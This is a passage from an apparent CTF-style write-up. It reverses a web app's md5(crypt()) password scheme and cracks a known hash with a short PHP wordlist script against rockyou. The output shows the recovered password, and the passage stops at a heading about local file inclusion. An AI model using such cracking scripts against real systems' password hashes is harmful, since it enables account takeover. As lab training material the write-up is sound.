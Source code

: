 ```php
                $_SESSION["loggedin"]=$email;
                header("location: home.php");
        }
<TRUNCATED>
```

So this first takes the password and then passes it to `crypt`, then `md5`. We know both the cleartext and hashed password of `elisa`, so we can reverse engineer this. The passing to `crypt` indicates why we cannot just crack this normally, because it's not just the MD5 of an encrypted password.&#x20;

We can just create a quick PHP script that brute forces for us:

```php
<?php 
$dict = fopen('/usr/share/wordlists/rockyou.txt','r');
while ($pwd = fgets($dict)){
	$correct = 'e626d51f8fbfd1124fdea88396c35d05';
	$hash = md5(crypt(trim($pwd), 'fa'));
	if ($correct == $hash){
		echo "Found: ". $pwd;
	}
}
fclose($dict);

$ php crack.php
Found: yl51pbx
```

This does the same thing as `index.php`, and it compares each hash to the correct one. We can then find the correct password. We can then login to the service.

### Printing LFI

<figure><img src="../../../.gitbook/assets/image (2424).png" alt=""><figcaption></figcaption></figure>
